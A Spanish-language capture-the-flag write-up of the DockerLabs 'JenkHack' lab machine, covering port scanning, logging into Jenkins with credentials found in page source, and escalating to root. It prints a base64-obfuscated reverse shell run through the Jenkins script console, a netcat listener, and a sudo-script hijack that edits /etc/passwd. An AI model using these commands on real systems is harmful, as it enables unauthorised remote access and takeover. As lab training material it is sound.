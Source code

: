 # jenkhack

Máquina "JenkHack" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil

![jenk](./images/jenkhack/img/jen.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 13:57:51 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 13:57:52 -03 for 15s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Hacker Nexus - jenkhack.hl
443/tcp  open  ssl/http syn-ack ttl 64 Jetty 10.0.13
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-01T12:00:45
| Not valid after:  2025-09-01T12:00:45
| MD5:   ca28:f274:9396:ea58:166b:e855:d80a:f8f7
| SHA-1: e8d7:abe6:d118:714a:1b6f:0b76:6811:055c:b16a:1d87
| -----BEGIN CERTIFICATE-----
| MIIDazCCAlOgAwIBAgIUBSmiF+Gc+BiN8WyNFzgeUmymIWgwDQYJKoZIhvcNAQEL
| BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
| GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0yNDA5MDExMjAwNDVaFw0yNTA5
| MDExMjAwNDVaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
| HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQCbdR8hWd693nt7C0ktew9VEHWerAmkRUNoUf2FJML3
| dew4Nl3Cn8nBCshRmqmrNBplc275t1MdQcsKJKxDPqXyNfNy0tX9DEa4outbJb19
| Y1hzIbfGGyTi7uxphIR46UUOx9vEUZeyoxLVifBHxY962ZwkRGnTMFCsiOJFTg7L
| +1J3V+FW6OLLN5cHhD+GzVfoglOXsKwzsGLNjTlBbqEaVFMnNo83nCCP/ZKMXiXe
| Rsld959G1NZZSV9GEX5s3e4iW9FvWxII1zamUiehkgf5SPJ6rLV5/hxzx3uAJzL7
| Ur1TV2HTqMfsSdG6uFd5WWAgcTxiIRu0liuxJxg08HPhAgMBAAGjUzBRMB0GA1Ud
| DgQWBBRcV7ZdtrWbCXIS+WBD2yRIwWWvADAfBgNVHSMEGDAWgBRcV7ZdtrWbCXIS
| +WBD2yRIwWWvADAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBc
| i803xq4wpjHJ+U/7xCRJB5Jia47VpRB6JeKMpxvRIDHxHkJDngEQ2eu+CsG/+TDP
| s/1/dgYsJJsOHG9xM9rFfmaVM7JPn9iuRlfg93pVn7jRcuuoFUGVGFQUwOCGFX2d
| +qq5Q+kQZZVNGkuNo0u/xhTE2Rr8bS0uOpaYqnfAFW3vVi8bh4/W81gjzTHCE9to
| B7zJSYXqsekAp381jRBUnz2XMjEpl0cVOHn+TwCVlKLUh+ZuP47D3A87iGjErrji
| woSNfGhH5GkXLQIm8kTEm8CgKcyLus9UuDn53mX8PB85LRjfGZ9ZNR56SfhFqCcs
| aKJxfwi0qS+3MP0YOEFZ
|_-----END CERTIFICATE-----
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
8080/tcp open  http     syn-ack ttl 64 Jetty 10.0.13
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 13:58:07 2024 -- 1 IP address (1 host up) scanned in 16.34 seconds
```

Como vemos está abierto el puerto `80, 443 y 8080`.

Ahora continuaremos por el navegador al puerto 80:

![80](./images/jenkhack/img/80.png)

No tiene nada interesante por lo que continuaremos al 8080:

![8080](./images/jenkhack/img/8080.png)

Tenemos un jenkins.

Si intentamos las credenciales comunes como `admin:admin` o `root:root` no tendremos acceso, por lo que buscaremos algún usuario y contraseña.

Luego de revisar el codigo fuente de la página en el puerto 80, encuentro dos palabras que parecen ser usuarios y al probarlas como usuario y contraseña en el puerto 8080, podemos entrar:

```css
alt="jenkins-admin">
alt="cassandra">
```

`jenkins-admin:cassandra`.

## INTRUSION

Estando dentro del jenkins, iremos a `/script`, esto nos llevará a una script conosole que nos permitirá ejecutar comandos. Para enviarnos una reverse shell, debemos ejecutar esto:

```groovy
def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()
```

Esto nos enviará una reverse shell por el puerto 443, por lo que antes de ejecutarla escucharemos en ese puerto:

```css
sudo nc -nlvp 443
```

una vez estemos escuchando en ese puerto, ejecutamos el comando en la página y **ganaremos acceso.**

## ESCALADA DE PRIVILEGIOS

#### jenkins

Como nos hemos entrado mediante una reverse shell, tendremos que hacer el `tratamiento de la tty`:

```css
script /dev/null -c bash # Lo ejecutamos y luego presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si que no se nos cerrará la conexión y estaremos cómodos.

Si leemos el archivo `/etc/passwd`, veremos un usuario llamado "jenkhack".

Si buscamos algún archivo con ese nombre, encontraremos una carpeta que tiene una nota. Para buscar ejecutamos `find / -name "jenkhack" 2>/dev/null`. Si la leemos vemos esto:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Como vemos la contraseña no está en un formato legible, por lo que iremos a [CyberChef](https://gchq.github.io/CyberChef/), y luego de probar, podemos pasarlo a texto con `base85`:

![chef](./images/jenkhack/img/chef.png)

Ahora escalamos poniendo `su jenkhack` y la contraseña.

#### Jenkhack

Ahora si ejecutamos un `sudo -l`, veremos esto:

```css
Matching Defaults entries for jenkhack on 36d30cf5e4f4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 36d30cf5e4f4:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

Pero si probamos a ejecutarlo solo nos muestra un mensaje, lo que significa que no es realmente bash sino un script. Al leerlo podemos ver esto en una parte:

```css
Running command.../opt/bash.sh
```

Por lo que vamos a `/opt/` pero ya hay un archivo llamado así, por lo que lo borramos con `rm bash.sh` y creamos otro con el siguiente contenido:

```css
#!/bin/bash

nano /etc/passwd
```

Esto nos dejará modificar el `/etc/passwd` cuando ejecutemos el script con sudo, y ya nos quedariá borrar la "x" de root y escalar con `su`

![root](./images/jenkhack/img/root.png)

Gracias por leer.
